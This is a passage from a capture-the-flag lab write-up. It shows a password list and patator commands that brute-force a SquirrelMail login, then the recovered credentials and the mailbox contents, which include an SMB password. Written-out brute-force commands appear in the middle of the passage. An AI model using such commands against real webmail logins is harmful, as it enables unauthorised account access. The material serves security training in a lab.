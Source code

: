 ```
alonsoterminator
Walterminator
79terminator6
1996terminator
```

Which look like a password list.

the `books` folder contains a bunch of .pdf

We can use the password list to bruteforce the `/squirrelmail`.

We tried `patator http_fuzz url=http://$IP/squirrelmail/src/redirect.php 0=pass.txt method=POST body='login_username=miles&js_autodetect_results=1&just_logged_in=1&secretkey=FILE0' -x ignore:fgrep=ERROR -t 2`

But didn't get any hits. I remembered that the share name is `milesdyson` so i tried with this username instead and got a hit `patator http_fuzz url=http://$IP/squirrelmail/src/redirect.php 0=pass.txt method=POST body='login_username=milesdyson&js_autodetect_results=1&just_logged_in=1&secretkey=FILE0' -x ignore:fgrep=ERROR -t 2`

```
cyborg007haloterminator
```

In squirrelmail we have 3 email :
```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

```
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```
